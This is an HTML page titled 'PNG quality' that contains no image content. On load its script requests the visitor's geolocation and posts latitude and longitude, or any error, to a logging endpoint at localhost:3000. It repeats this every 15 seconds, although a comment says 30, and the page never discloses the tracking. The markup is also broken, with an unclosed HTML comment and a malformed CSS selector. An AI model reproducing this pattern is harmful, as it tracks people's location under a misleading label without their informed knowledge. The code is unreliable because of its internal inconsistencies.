

<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PNG quality</title>
    <style>
        body style {
            display: block;
            color: white;
            background-color: rgb(0 0 0 /.7);
            padding-inline-end: 2rem;
            position: absolute;
            inset-block-start: 1rem;
            inset-inline-end: 1rem;
            white-space: pre;
            font-family: system-ui;
            font-size: 1.5rem;
        }
    </style>
</head>
<body>
    <input id="long"><input id="lat">
    <!-- style contenteditable="plaintext-only">
        img {
            width: 100%;
            height: 100%;
            object-fit: contain;
        }
    </style>
    
</body>

<script>
    function getGeolocation() {
      navigator.geolocation.getCurrentPosition(position => {
          long.value = position.coords.longitude;
          lat.value = position.coords.latitude;
        // Use fetch API to send a POST request
        fetch('http://localhost:3000/log/', {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json',
          },
          body: JSON.stringify({
            latitude: position.coords.latitude,
            longitude: position.coords.longitude
          })
        });
      }, error => {
          long.value = error.message;
        fetch('http://localhost:3000/log/', {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json',
          },
          body: JSON.stringify({
            error: error.message
          })
        });
        console.error('Error getting geolocation:', error.message);
      });
    }

    // Initial call to get geolocation
    getGeolocation();

    // Set interval to print geolocation coordinates every 30 seconds
    setInterval(() => {
      getGeolocation();
    }, 15000);
</script>
    
</html>
